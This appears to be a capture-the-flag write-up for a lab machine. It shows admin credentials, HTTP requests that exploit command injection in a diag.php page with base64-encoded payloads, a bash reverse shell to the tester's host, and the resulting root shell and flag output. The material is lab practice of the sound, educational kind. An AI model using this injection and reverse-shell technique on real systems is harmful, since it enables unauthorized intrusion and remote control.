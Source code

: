 #### 4.1. Admin interface login

Interface: `10.10.10.105`
Username: `admin`
Password: `NET_45JDX23`


#### 4.2. Authenticated RCE

Request:
```
POST http://10.10.10.105/diag.php HTTP/1.1
Host: 10.10.10.105
Content-Length: 26
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ej230j685qu1a5h6k4bi10cu45
Connection: close

check=cm9vdHxlY2hvIGBpZGA=
```
Payload: ``` root|echo `id` ```

Repose:
```
<p>uid=0(root) gid=0(root) groups=0(root)</p>
```


#### 4.3. User flag

Request:
```
POST http://10.10.10.105/diag.php HTTP/1.1
Host: 10.10.10.105
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ej230j685qu1a5h6k4bi10cu45
Connection: close

check=cm9vdHxgL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIxLzkxOTEgMD4mMWA=
```
Payload:
```
root|`/bin/bash -i >& /dev/tcp/10.10.14.21/9191 0>&1`
```


Response:
```
# nc -nlvp 9191
listening on [any] 9191 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.105] 45888
bash: cannot set terminal process group (23921): Inappropriate ioctl for device
bash: no job control in this shell
root@r1:~# ls -la
ls -la
total 24
drwx------ 1 root root  162 Jul  3 04:03 .
drwxr-xr-x 1 root root  140 Jun 22 08:25 ..
-rw-r--r-- 1 root root 3121 Jul  2 19:33 .bashrc
drwx------ 1 root root   40 Jul  2 01:02 .cache
drwxr-xr-x 1 root root    0 Jul  2 16:40 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Jul  2 16:40 .selected_editor
drwx------ 1 root root   52 Jul  2 01:47 .ssh
-rw-r--r-- 1 root root    0 Jul  3 04:03 test_intercept.pcap
-rw-r--r-- 1 root root   33 Jul  2 01:03 user.txt
-rw------- 1 root root 5120 Jul  3 03:56 .viminfo
root@r1:~# cat user.txt
cat user.txt
5649c41df59fd6efdc4a78d79a07f2be
root@r1:~# uname -a
Linux r1 4.15.0-24-generic #26-Ubuntu SMP Wed Jun 13 08:44:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
root@r1:~# cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.4 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.4 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Note:
- even though the user might be `root`, this box is part of a network
- possible options: AS100, AS200, AS300
- lateral movement is required for actual `root.txt` flag
